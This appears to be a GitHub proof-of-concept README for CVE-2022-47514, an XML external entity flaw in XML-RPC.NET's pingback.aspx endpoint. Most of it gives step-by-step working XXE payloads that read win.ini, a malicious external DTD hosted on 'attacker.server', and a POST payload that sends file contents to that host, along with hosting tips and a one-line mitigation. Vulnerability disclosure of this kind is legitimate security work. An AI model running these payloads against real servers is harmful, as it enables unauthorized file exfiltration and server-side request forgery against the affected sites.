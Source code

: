 # [CVE-2022-47514] Proof of Concept 
**CVE (+Exploit) Author:** Farzan Karimi

**CVE Summary:**  An XML external entity (XXE) injection vulnerability in http://XML-RPC.NET before 2.5.0 allows remote authenticated users to conduct server-side request forgery (SSRF) attacks, as demonstrated by a pingback.aspx POST request. While the POST response initially appears to be a limited XXE file enumeration vulnerability, it can be elevated to full file exfiltration using an external DTD, hosted by a proxy server. Hence the name, proXXE. :)

**CVE Details:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-47514

# PoC for CookComputing XML-RPC.NET XXE <2.5.0 [proXXE]
1. Identify a vulnerable pingback.aspx endpoint. Identifying pingback endpoints with "CookComputing" <2.5 version footers tend to be strong signals.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)

# 12/29 Update: File Exfiltration

*Summary:* Some XXEs don't directly return file contents in HTTP server responses. These cases don't actually demonstrate the true impact of exploitation, or the ability to exfiltrate file data. The following steps demonstrate how an attacker can still achieve file exfiltration via XXE on XML-RPC.NET by hosting a malicious DTD on a system they control, and then invoke the external DTD from within the in-band XXE payload. 

5. Host a malicious DTD on a file server the attacker controls. The system should host a malicious XML, containing:

```
<!ENTITY % meta "<!ENTITY serverfile SYSTEM 'https://attacker.server/public/evil.xml?r=%winfile;'>">  
%meta; 

```

When this XML document is parsed, the token &winfile; will be replaced with the contents of the win.ini file of the system where the parsing took place. The entity “winfile” in this XML document is an example of an external entity since it’s read from a separate resource. In cases where user-controlled XML is parsed on a server and the XML is then reflected to the user, this can allow malicious users to see the contents of privileged files on the server itself.

6. Craft the POST payload to post the entity as a variable to your server, as so:

```
<?xml version="1.0"?> 

<!DOCTYPE doc PUBLIC "blah" "https://attacker.server/public/evil.xml" [ 
  <!ENTITY % winfile SYSTEM "file://c:/windows/win.ini"> 
]> 

<doc> 
  &serverfile; 
</doc> 
```

Burp request:
![xxe-exfil-payload](https://user-images.githubusercontent.com/3679232/210012497-d0ed37f8-3e95-4231-971d-03a83629c1f8.png)


7. Because the parameter entity token is being used in a normal literal which then composes a system literal, it is parsed and expanded. This makes a request to a URL like:

```
http://www.attacker.server/?r=;%20for%2016-bit%20app%20support%0D%0A%5Bfonts%5D%0D%0A%5Bextensions%5D%0D%0A%5Bmci%20extensions%5D%0D%0A%5Bfiles%5D%0D%0A%5BMail%5D%0D%0AMAPI=1%0D%0A%5BMCI%20Extensions.BAK%5D%0D%0Am2v=MPEGVideo%0D%0Amod=MPEGVideo
```

And the targetted file (e.g. win.ini) is exfiltrated and written to the attacker's web log:

![xxe-data-exfil](https://user-images.githubusercontent.com/3679232/210012160-eab20862-cd15-4c6a-aa29-41001ec17519.png)

Note: if using Azure to host your evil XML (external DTD), it may take time for the file to appear in the Azure web logs. Based on experience, replaying the request multiple times may trigger Azure garbage collection to update the logs sooner.

# Mitigation
Installations using a version prior to version 2.5.0 should update to version 2.5.0. This mitigation disables XML entity expansion.
